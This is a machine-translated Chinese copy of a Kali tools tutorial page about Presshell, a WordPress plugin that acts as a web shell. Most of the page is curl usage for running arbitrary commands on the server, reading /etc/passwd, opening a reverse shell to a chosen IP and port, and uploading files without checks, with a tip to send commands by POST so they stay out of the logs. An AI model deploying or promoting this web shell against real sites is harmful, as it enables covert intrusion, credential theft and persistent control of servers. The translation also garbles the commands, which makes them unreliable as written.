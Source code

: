 # 快速和肮脏的命令执行外壳

> 原文：<https://kalilinuxtutorials.com/presshell/>

[![](img/add4ae56e046aee2a3836217457c15d6.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj8R8IslTBUDRbn54L7D-2PpGfSzkZEwyLdPVFJHhqXI86dRrFVEKkHP4CAnwauN1O9XjsI0XGahePF4GW8ryHitRDqxQpSdgpwfNjPihsPim6r2nx0LsxI4bTlAV4G9fLUbmlvjdAqlv2IHxE9R-IuAGuimoVRZLZxRkpskntv2v0N_dIvswEKHCKY/s728/backdoor%20(1).png)

**Presshell** 是*快速& dirty WordPress 命令执行 Shell* 的工具。在你的 wordpress 服务器上执行 shell 命令。上传的 shell 可能位于`**<your-host>/wp-content/plugins/shell/shell.php**`

### 装置

要安装 shell，我们假设你有 WordPress 的管理权限，并且可以安装插件，因为把 PHP 文件转移到媒体库是不应该的。否则，你有更大的问题。

只需上传位于 Releases 部分的 zip 文件作为新的扩展名，就可以开始了。

### 用法

使用 shell 非常简单。只需将`**sh**`命令作为参数传递给 shell:

**❯curl ' http://host/…/shell . PHP？cmd = uname+-a '
Linux WordPress-server 2 . 6 . 32-21-generic-PAE #**32-Ubuntu SMP Fri 2010 年 4 月 16 日 09:39:35 UTC i686 GNU/Linux

您也可以在 POST 请求中传递这些参数，这是将您的命令排除在日志之外的推荐方式。

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' cmd = ls '
license
readme . MD
shell.php**

还支持更复杂的命令，不过要注意引用

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' cmd = cat/etc/passwd | grep-v "(false | nologin)'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync**

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' cmd = python-c " from urllib . parse 导入 urlencode；print(urlencode({ \ " cmd \ ":\ " uname-a \ " })" '
cmd = uname+-a**

您也可以使用`**ip**`和`**port**`参数打开反向外壳。默认端口是`**443**`。

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' IP = 127 . 0 . 0 . 1 '**

**❯curl ' http://host/…/shell . PHP '–data-urlencode ' IP = 127 . 0 . 0 . 1 '–data-urlencode ' port = 1337 '**

为了方便起见，还提供了一个选项，可以无条件地将文件上传到插件*的目录中，并且不需要检查*。

**❯curl ' http://host/…/shell . PHP '-f ' file = @ some _ file '
❯curl ' http://host/…/shell . PHP '–data-urlencode ' cmd = ls '
license
readme . MD
shell.php
some _ file**

[**Download**](https://github.com/scheatkode/presshell)